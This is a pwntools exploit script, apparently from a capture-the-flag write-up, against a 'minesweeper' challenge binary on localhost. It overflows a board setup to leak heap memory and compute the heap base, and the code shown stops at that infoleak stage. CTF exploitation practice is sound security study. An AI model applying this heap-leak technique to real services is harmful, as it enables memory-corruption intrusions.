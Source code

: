 ```
from pwn import *

# Establish the server
server = process("minesweeper")
#gdb.attach(server, gdbscript = 'set follow-fork-mode child\nb *0x8048b7c')

# Establish remote connection to contact server as a client
target = remote("127.0.0.1", 31337)

# Establish the binary
elf = ELF("minesweeper")

# Establish interface functions
def recvMenu():
    print target.recvuntil("3) Q (Quit)\n")

def recvGame():
    print target.recvuntil("3) Quit game (Q)")

def initializeGame(x, y, content):
    recvMenu()
    target.sendline("I")
    print target.recvuntil("format: B X Y\n")
    target.sendline("B " + str(x) + " " + str(y))
    print target.recvuntil("character X\n")
    target.send(content)

def newGame():
    recvMenu()
    target.sendline("N")

def uncoverPiece(x, y):
    recvGame()
    target.sendline("U " + str(x) + " " + str(y))

def viewBoard(recv = None):
    if recv == None:
        raw_input()
    else:
        recvGame()
    target.sendline("V")

def quitGame(recv = None):
    if recv == None:
        raw_input()
    else:
        recvGame()
    target.sendline("Q")

# Make a board to get heap infoleak
initializeGame(3, 4, "X" + "1"*(19))

newGame()# I/O is a little weird
newGame()

# Get and parse out the infoleak, find base of heap
viewBoard(1)

print target.recvuntil("X11\n")
leak = target.recv(30)
leak = leak.strip("\n")
leak = u32(leak[17:19] + leak[20:22])
heapBase = leak - 0xf0
```